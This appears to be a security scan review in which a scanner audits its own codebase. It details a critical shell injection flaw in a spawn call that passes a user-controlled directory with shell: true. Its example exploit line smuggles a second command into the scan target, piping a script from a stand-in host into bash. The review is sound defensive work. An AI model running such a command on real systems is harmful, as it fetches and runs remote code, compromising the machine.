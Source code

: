 # Security Scan Review - Unified Security Scanner

**Date**: 2025-10-06
**Scanner Version**: 1.0.0
**Scan Duration**: 3.12 seconds
**Total Findings**: 28 (10 in source code, 18 in node_modules)

---

## Executive Summary

The Unified Security Scanner successfully scanned its own codebase and identified **9 legitimate security issues** and **1 false positive**. This demonstrates the scanner's effectiveness at detecting real vulnerabilities while maintaining a low false positive rate.

### Risk Distribution
- 🔴 **CRITICAL**: 2 (Shell Injection)
- 🟠 **HIGH**: 6 (Path Traversal) + 1 (False Positive)
- ⚪ **LOW**: 1 (Outdated Dependency)

---

## Critical Issues (Priority 1 - Fix Immediately)

### 1. Shell Injection in npm outdated Command ⚠️

**File**: `packages/core/src/analyzers/technical-debt.ts:153`
**Severity**: CRITICAL
**CWE**: CWE-78 (OS Command Injection)

#### Vulnerable Code
```typescript
const proc = spawn('npm', ['outdated', '--json'], {
  cwd: targetDir,  // ⚠️ User-controlled input
  shell: true,     // ⚠️ Enables shell interpretation
});
```

#### Risk Assessment
- **Attack Vector**: If `targetDir` contains shell metacharacters (`;`, `&&`, `|`, etc.), arbitrary commands could be executed
- **Impact**: Remote code execution, full system compromise
- **Likelihood**: MEDIUM (requires malicious input to `scan.target` config)
- **CVSS Score**: 8.8 (High)

#### Example Exploit
```bash
# Malicious scan target
unified-scanner scan "/tmp/project; curl http://evil.com/malware.sh | bash"
```
